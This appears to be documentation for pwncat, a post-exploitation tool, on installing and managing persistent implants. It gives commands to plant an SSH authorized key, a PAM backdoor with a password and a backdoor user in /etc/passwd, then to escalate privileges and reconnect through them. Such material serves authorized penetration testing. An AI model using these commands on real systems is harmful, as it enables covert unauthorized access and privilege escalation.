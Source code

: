 Persistent Implants
===================

pwncat provides the ability to install and manage persistent implants on target hosts. The ``implant``
module provides a way to manage installed implants. Installing an individual implant is accomplished by
simply executing the implant module itself.

Installing An Implant
---------------------

pwncat comes with a few standard implants. Installing the standard implants can be accomplished easily
as seen below.

.. code-block:: bash

   # Install an authorized public key as the current user
   (local) pwncat$ run implant.authorized_key key=./id_rsa
   # Install an authorized key as another user (requires root access)
   (local) pwncat$ run implant.authorized_key user=john key=./id_rsa
   # Install a pam backdoor module
   (local) pwncat$ run implant.pam password=s3cr3ts
   # Install a backdoor user within /etc/passwd
   (local) pwncat$ run implant.passwd backdoor_user=pwncat backdoor_pass=pwncat

List Installed Implants
-----------------------

The generic ``implant`` module can be used to list installed implants.

.. code-block:: bash

   # List installed implants
   (local) pwncat$ run implant list
   # The default subcommand is to list
   (local) pwncat$ run implant

Escalate Using Local Implant
----------------------------

The generic ``implant`` module provides the capability to utilize local implants to escalate privileges
to another user. This can be used to utilize an explicit escalation vice performing automated escalation
via the ``escalate`` command. During execution of the ``implant escalate`` subcommand, you will be
prompted for the implants to utilize.

.. code-block:: bash

   # Attempt escalation with a local implant; will be prompted for which implant(s) to use
   (local) pwncat$ run implant escalate

Removing Implants
-----------------

Once again, the ``implant`` module provides the ability to remove installed implants. As with the escalate
subcommand, you will be prompted for which implant to remove after running the module.

.. code-block:: bash

   # Remove one or more implants
   (local) pwncat$ run implant remove

Reconnecting With Implants
--------------------------

Remote implants provide a way to reconnect to a target at will. Reconnecting can be accomplished by simply
executing the pwncat entrypoint and specifying either the IP address or unique host ID of the target.
pwncat will automatically check for installed implants and attempt to reconnect.

To list all installed remote implants, use the ``--list`` argument:

.. code-block:: bash

   $ pwncat-vl --list
                                    ╷                ╷          ╷                                       ╷
   ID                               │ Address        │ Platform │ Implant                               │ User
   ══════════════════════════════════╪════════════════╪══════════╪═══════════════════════════════════════╪═══════
   ab8b7df2a1f83fa6694b0315aaf1deec │ 192.168.10.100 │ linux    │ linux.implant.authorized_key          │ caleb

When attempting to reconnect, you only need to provide the unique host ID from the above table. You can also provide the remote address, but keep in mind that if multiple hosts sit behind a single NAT, the host ID is more reliable for reconnecting.

.. code-block:: bash

   $ pwncat-vl ab8b7df2a1f83fa6694b0315aaf1deec
   [03:08:13] Welcome to pwncat 🐈!
              trigger implant: linux.implant.authorized_key
   [03:08:18] 192.168.10.100:22: loaded known host from db
              192.168.10.100:22: connected via backdoor public key added to caleb authorized_keys

